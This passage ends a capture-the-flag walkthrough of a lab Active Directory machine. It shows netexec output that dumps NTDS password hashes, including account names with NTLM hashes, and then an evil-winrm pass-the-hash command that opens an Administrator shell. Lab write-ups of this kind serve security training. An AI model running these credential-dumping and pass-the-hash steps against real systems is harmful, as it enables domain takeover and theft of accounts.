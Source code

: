```shell
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
SMB         10.129.59.175   445    FOREST           htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
SMB         10.129.59.175   445    FOREST           htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
SMB         10.129.59.175   445    FOREST           htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
SMB         10.129.59.175   445    FOREST           htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
SMB         10.129.59.175   445    FOREST           htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
SMB         10.129.59.175   445    FOREST           htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
SMB         10.129.59.175   445    FOREST           tony:10101:aad3b435b51404eeaad3b435b51404ee:58c2874c21fae31a4163a43b6efdcbf5:::
SMB         10.129.59.175   445    FOREST           FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:244315f922bbed1cddfd1c0ae3a350cf:::
SMB         10.129.59.175   445    FOREST           EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
SMB         10.129.59.175   445    FOREST           [+] Dumped 34 NTDS hashes to /home/frodo/.nxc/logs/FOREST_10.129.59.175_2024-12-04_134848.ntds of which 31 were added to the database
SMB         10.129.59.175   445    FOREST           [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.59.175   445    FOREST           [*] cat /home/frodo/.nxc/logs/FOREST_10.129.59.175_2024-12-04_134848.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.59.175   445    FOREST           [*] grep -iv disabled /home/frodo/.nxc/logs/FOREST_10.129.59.175_2024-12-04_134848.ntds | cut -d ':' -f1
```

We have successfully dumped all the hashes from the Active Directory database. Now, we can either attempt to crack these hashes offline or use the hashes themselves to log in to the domain controller.

> Cracking the hashes is not always necessary. In some cases, you can directly use the hashes for authentication.  
{: .prompt-info }

Using the **Administrator's** NTLM hash, we will take a shell on the target using `evil-winrm`.

```shell
evil-winrm -i 10.129.59.175 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

> Root flag is found at: `C:\Users\Administrator\Desktop\root.txt`
{: .prompt-info}

This concludes the walkthrough!  
Happy hacking!
